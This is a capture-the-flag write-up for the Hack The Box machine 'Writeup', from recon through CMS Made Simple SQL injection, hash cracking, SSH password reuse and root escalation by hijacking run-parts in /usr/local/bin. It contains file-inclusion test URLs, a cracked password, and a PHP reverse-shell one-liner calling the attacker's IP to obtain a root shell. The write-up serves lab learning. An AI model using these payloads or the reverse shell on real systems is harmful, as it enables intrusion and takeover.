

# Writeup: 10.10.10.138

## Hints

- Getting a foothold revolves around finding what "builds/runs" the website and finding a suitable exploit for the software.
- Password reuse is a thing!
- Privesc is a fun and interesting method about abusing writable paths and finding executables that are run without the full path.

## nmap

Starting with the usual `nmap` scan. Interesting ports:

```none
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
```

From the `nmap` scan - looks like we have a Debian Linux target machine.

## 80: Recon

Loaded up the target IP in Firefox, and was greeted with a very unusual home page.


Couple of notes about the content:

- Author states site is being actively attacked
- Web server bans IP addresses with too many 40x errors using Eeyore DoS protection
- Email and hostname leak: `jkr@writeup.htb`

Added `writeup.htb` to my hosts file. Visiting the DNS names gives the same homepage. At this point I would usually fire up `gobuster` to find some hidden directories... but we can't as we may get banned as this would create 404 errors when lots of directories are tested against the web server and not found. Instead, we should check if the `robots.txt` file exists. This was the next logical thing to check, as we had nothing else to go on, and needed to find more web content.



And we found the `writeup` directory!


The `writeup` page is pretty simple and has three writeups for different Hack The Box machines. One interesting thing that stands out is how the page contents seem to be displayed. Here is an example URL.

```none
http://10.10.10.138/writeup/index.php?page=ypuffy
```

So the site is powered by PHP, and looks like it includes a page as an HTTP parameter. Started trying a few go-to PHP file inclusion and path traversal checks. Didn't want to push the server too much, as I was worried about getting banned with too many 404 errors. A few of the URLs I tested were:

```none
/writeup/index.php?page=../../../etc/passwd
/writeup/index.php?page=../../../../../etc/passwd
/writeup/index.php?page=http://10.10.14.127:8000/cmd.php
/writeup/index.php?page=php://filter/convert.base64-encode/resource=index.php
```

None of these worked, and was getting more and more nervous about getting banned! Can't wait to see how the banning works... later. Anyway, decided to stop while I was still ahead, and started enumerating for more information that might be useful.

After a while, I discovered that the pages under `writeup` are generated using a CMS. I thought it was a joke at first, but this CMS seems to be a thing.


This also seemed to match a not-quite-so-obvious hint. The home page had the footer message of: `Page is hand-crafted with vi.` and the `writeup` pages had the message: `Pages are hand-crafted with vim. NOT.`.

Started doing some research and discovered the [CMS Made Simple project home page](https://www.cmsmadesimple.org/) and the [project SVN repo](http://viewsvn.cmsmadesimple.org/listing.php?repname=cmsmadesimple&). This is quite a big project - and I found it interesting that I have never heard of it. Since I had no version information, I tried to find a [changelog](http://dev.cmsmadesimple.org/project/files/6) to determine what version I might have on the target. The only help I get from the website is a copyright notice for the CMS ending in 2019.

The last release, in late 2019 (December) was `Version 2.2.13-0` on 2019-12-04. And the first release in early 2019 (January) was `Version 2.2.9-0` on 2019-01-21. Using this info looks like we are dealing with version 2.2, with a potential minor release difference. I looked at Exploit DB to try to find an exploit in this time frame.

```none
└─$ searchsploit CMS Made Simple | grep -v Authenticated | grep -v Cross-Site
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
CMS Made Simple (CMSMS) Showtime2 - File Upload Remote Code Execution (Metasploit | php/remote/46627.rb
CMS Made Simple 0.10 - 'Lang.php' Remote File Inclusion                           | php/webapps/26217.html
CMS Made Simple 1.0.5 - 'Stylesheet.php' SQL Injection                            | php/webapps/29941.txt
CMS Made Simple 1.11.9 - Multiple Vulnerabilities                                 | php/webapps/43889.txt
CMS Made Simple 1.2 - Remote Code Execution                                       | php/webapps/4442.txt
CMS Made Simple 1.2.2 Module TinyMCE - SQL Injection                              | php/webapps/4810.txt
CMS Made Simple 1.2.4 Module FileManager - Arbitrary File Upload                  | php/webapps/5600.php
CMS Made Simple 1.4.1 - Local File Inclusion                                      | php/webapps/7285.txt
CMS Made Simple 1.6.2 - Local File Disclosure                                     | php/webapps/9407.txt
CMS Made Simple 1.6.6 - Multiple Vulnerabilities                                  | php/webapps/11424.txt
CMS Made Simple 1.8 - 'default_cms_lang' Local File Inclusion                     | php/webapps/34299.py
CMS Made Simple 2.1.6 - 'cntnt01detailtemplate' Server-Side Template Injection    | php/webapps/48944.py
CMS Made Simple 2.1.6 - Multiple Vulnerabilities                                  | php/webapps/41997.txt
CMS Made Simple 2.1.6 - Remote Code Execution                                     | php/webapps/44192.txt
CMS Made Simple < 1.12.1 / < 2.1.3 - Web Server Cache Poisoning                   | php/webapps/39760.txt
CMS Made Simple < 2.2.10 - SQL Injection                                          | php/webapps/46635.py
CMS Made Simple Module Antz Toolkit 1.02 - Arbitrary File Upload                  | php/webapps/34300.py
CMS Made Simple Module Download Manager 1.4.1 - Arbitrary File Upload             | php/webapps/34298.py
---------------------------------------------------------------------------------- ---------------------------------
```

I did a negative `grep` match to remove exploits that required authentication or were client-side attacks. There were lots of exploits targeting version 1, and some lower version 2 exploits. One jumped out as possible: `php/webapps/46635.py`, targeting 2.2.10. This was early 2019 but seemed the best bet.

Started by mirroring the exploit code.

```none
searchsploit -m php/webapps/46635.py
```

This script needed Python 2, and had a few errors when initially running it. One of the problems was the script wanted the package `termcolor` to print fancy terminal colors. I gave up trying to install Python 2 packages a while ago - so I just changed the exploit code to not use this package, and just use normal print statements. This was quite easy, as there were only a few lines that needed modification. If you want the modified script, that is pure Python 2, it is available in this repo: [`46635.py`](exploits/46635.py).

The script only takes a couple of arguments. I left all the defaults (including time) and ran it with a wordlist and the crack option.

```none
python2 -u http://10.10.10.138/writeup --crack --wordlist /usr/share/wordlists/rockyou.txt
```

My terminal went a bit nuts and started flashing during the password cracking process, and I suspected that it was going pretty slow. Reading the source code of the exploit shows that the hash is just a salted MD5, and would be easier and faster to crack it with `john` or `hashcat`. After waiting a while, I canceled the script during the cracking process, with the following information - a salt, username, and hashed password.

```none
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```

If we look at the exploit source code, we can find the function for cracking the password.

```python
def crack_password():
    global password
    global output
    global wordlist
    global salt
    dict = open(wordlist)
    for line in dict.readlines():
        line = line.replace("\n", "")
        beautify_print_try(line)
        if hashlib.md5(str(salt) + line).hexdigest() == password:
            output += "\n[+] Password cracked: " + line
            break
    dict.close()
```

Specifically, we can see the line that does the password guessing.

```none
if hashlib.md5(str(salt) + line).hexdigest() == password:
```

If we look at this in terms of `hashcat` syntax - the hashed password is in the `md5($salt.$pass)` format, which is hash mode `20` in `hashcat`. Let's start by creating a new file with the salted hash value, where the salt and hash are separated by a colon (`:`). Even though the format of the hash is `salt:password`, the `hashcat` mode wants it in `password:salt`.

```none
echo -n '62def4866937f08cc13bab43bb14e6f7:5a599ef579066807' > jkr_hash
```

Then start `hashcat` using mode `20`.

```none
hashcat -m 20 --remove jkr_hash /usr/share/wordlists/rockyou.txt
```

This worked fast, even when running `hashcat` in my VM with no OpenCL drivers. The results...

```none
62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: md5($salt.$pass)
Hash.Target......: 62def4866937f08cc13bab43bb14e6f7:5a599ef579066807
Time.Started.....: Wed Aug  4 08:18:34 2021 (2 secs)
Time.Estimated...: Wed Aug  4 08:18:36 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2795.9 kH/s (0.20ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 4360192/14344385 (30.40%)
Rejected.........: 0/4360192 (0.00%)
Restore.Point....: 4359168/14344385 (30.39%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: raymie0506 -> raygan96
```

Looking at the "Progress" in the `hashcat` output we can see we went through about 4 million passwords. The same result if we analyse the `rockyou.txt` file, the password is quite far in the wordlist - so glad I used a faster password cracking tool!

```none
└─$ grep -rin raykayjay9 /usr/share/wordlists/rockyou.txt 
4359762:raykayjay9
```

Finally, log in to the `jkr` account using the password.

```none
└─$ ssh jkr@10.10.10.138
The authenticity of host '10.10.10.138 (10.10.10.138)' can't be established.
ECDSA key fingerprint is SHA256:TEw8ogmentaVUz08dLoHLKmD7USL1uIqidsdoX77oy0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.138' (ECDSA) to the list of known hosts.
jkr@10.10.10.138's password: 
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jkr@writeup:~$ id
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
```

## Privesc: `jkr` to `root`

The `jkr` privilege is quite low. I ran linpeas in the background while enumerating manually. I noticed that linpeas highlighted a variety of PATH entries. I also noticed that the user `jkr` was a member of more groups than I am used to seeing.

```none
jkr@writeup:~$ groups
jkr cdrom floppy audio dip video plugdev staff netdev
```

The documentation on the [System Groups from the Debian Wiki](https://wiki.debian.org/SystemGroups) shows the purpose of the `staff` group.

> Allows users to add local modifications to the system (/usr/local) without needing root privileges

And, according to the [Linux Privilege Escalation doc on HackTricks the PATH](https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-path-abuses) information is interesting.

> If you find that you can write inside some folder of the $PATH you may be able to escalate privileges by creating a backdoor inside the writable folder with the name of some command that is going to be executed by a different user (root ideally) and that is not loaded from a folder that is located previous to your writable folder in $PATH.

Looking into the permissions on the `/usr/local/` directory contents, we can see these interesting permissions on `bin` and `sbin`.

```none
jkr@writeup:~$ ls -la /usr/local | grep bin
drwx-wsr-x  2 root staff 20480 Apr 19  2019 bin
drwx-wsr-x  2 root staff 12288 Apr 19  2019 sbin
```

So, this path injection attack is possible if we can:

1. Find a file that is being executed by root without a full path
2. Overwrite or create that file in `/usr/local/bin/bash` (as this path is first in the list)

So we need to see if we can find a file! I started by downloading `pspy` to view running processes in real-time.

```none
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64
```

Then set up a Python HTTP server and fetched the file. I initially saved it to `/dev/shm` and tried to execute it, and got a permission denied error. This stumped me for a little. Turns out, the `/dev/shm` folder was mounted with the `noexec` flag.

```none
jkr@writeup:/dev/shm$ chmod +x pspy64 
jkr@writeup:/dev/shm$ ./pspy64
-bash: ./pspy64: Permission denied
jkr@writeup:/dev/shm$ mount | grep shm
tmpfs on /run/shm type tmpfs (rw,nosuid,nodev,noexec,relatime,size=413360k)
```

So I switched to the `/tmp` directory instead and ran `pspy`. Started looking for anything that was running without a full path to the executable. Noticed a cron job that runs every minute, but it has the full path.

```none
2021/08/03 16:50:01 CMD: UID=0    PID=19541  | /usr/sbin/CRON 
2021/08/03 16:50:01 CMD: UID=0    PID=19542  | /usr/sbin/CRON 
2021/08/03 16:50:01 CMD: UID=0    PID=19543  | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
2021/08/03 16:51:01 CMD: UID=0    PID=19545  | /usr/sbin/CRON 
2021/08/03 16:51:01 CMD: UID=0    PID=19546  | /usr/sbin/CRON 
2021/08/03 16:51:01 CMD: UID=0    PID=19547  | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
```

Waited a while and poked around a bit, but couldn't find anything interesting. Logged in to another SSH session, and noticed that a few processes are run when logging in.

```none
2021/08/03 16:49:07 CMD: UID=0    PID=19531  | sshd: jkr [priv]  
2021/08/03 16:49:07 CMD: UID=0    PID=19532  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new                                
2021/08/03 16:49:07 CMD: UID=0    PID=19533  | run-parts --lsbsysinit /etc/update-motd.d 
2021/08/03 16:49:07 CMD: UID=0    PID=19534  | uname -rnsom 
2021/08/03 16:49:07 CMD: UID=0    PID=19535  | sshd: jkr [priv]  
2021/08/03 16:49:08 CMD: UID=1000 PID=19536  | sshd: jkr@pts/1   
```

This is good! The `run-parts` executable is being called without the full path. We should be able to create another `run-parts` file in `/usr/local/bin` with our code and execute it by SSHing into the machine. Started with a PoC to create a file in `/tmp` to see if this worked.

```none
jkr@writeup:~$ echo -e '#!/bin/bash\n\ntouch /tmp/meow' > /usr/local/bin/run-parts
jkr@writeup:~$ cat /usr/local/bin/run-parts
#!/bin/bash

touch /tmp/meow
jkr@writeup:~$ chmod +x /usr/local/bin/run-parts
```

The PoC just creates the `/tmp/meow` file. After SSHing in, we can see the file created with the `root` user as the owner. Make sure to set the file executable! This tripped me up, and had no idea why it wasn't running!

```none
jkr@writeup:~$ ls -lisa /tmp | grep meow
13205    0 -rw-r--r--  1 root root       0 Aug  3 17:27 meow
```

Now we know the process works, we can get a shell as `root`. There are many ways to achieve this, but I decided to get a reverse shell as the root user using a PHP reverse shell.

```none
jkr@writeup:~$ echo $'php -r \'$sock=fsockopen("10.10.14.127",9001);exec("/bin/sh -i <&3 >&3 2>&3");\'' > /usr/local/bin/run-parts
jkr@writeup:~$ chmod +x /usr/local/bin/run-parts
```

Did the same method of creating a `run-parts` file, and making it executable, and started a netcat listener on port 9001. Then logged in as the `jkr` user over SSH and got the reverse shell back to my system.

```none
└─$ nc -lvnp 9001                                       
listening on [any] 9001 ...
connect to [10.10.14.127] from (UNKNOWN) [10.10.10.138] 36006
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# wc -c /root/root.txt
33 /root/root.txt
```

One thing I noted here - the reverse shell hangs the login process, so might not be useful in specific scenarios. After watching the video by ippsec, he created an SSH key and add the public key to `root`s authorised key files - a nice idea.

## Post Exploitation

This box was a little strange as I avoided lots of tools and techniques that might have triggered DoS protection. After finishing the box, I had a poke around to see what protection they had enabled. Long story short - it was `fail2ban` and was configured for SSH and HTTP. The contents of the `fail2ban` configuration file are below. The max retries for HTTP 404's were 30, with a ban time of 120.

```none
jkr@writeup:/etc/fail2ban$ cat jail.local
[INCLUDES]
before = paths-debian.conf

[DEFAULT]
ignoreip = 127.0.0.1/8
bantime  = 120
maxretry = 10

[sshd]
enabled = true

[apache-404]
enabled  = true
port     = http
filter   = apache-404
logpath  = /var/log/apache2/access.log tail
maxretry = 30
```

## Lessons Learned

- Manual enumeration is useful... and sometimes the only option when the target has DoS or attack protection.
- Keep expanding the toolset. This was my first time using `pspy`, and should be added to my go-to list of useful tools.
- Keep updating and refining my methodology. This machine was interesting and got me thinking in different ways.

## Useful Resources

- [HackTheBox - Writeup by ippsec](https://www.youtube.com/watch?v=GKq4cwBfH24)
- [HTB: Writeup by 0xdf](https://0xdf.gitlab.io/2019/10/12/htb-writeup.html)
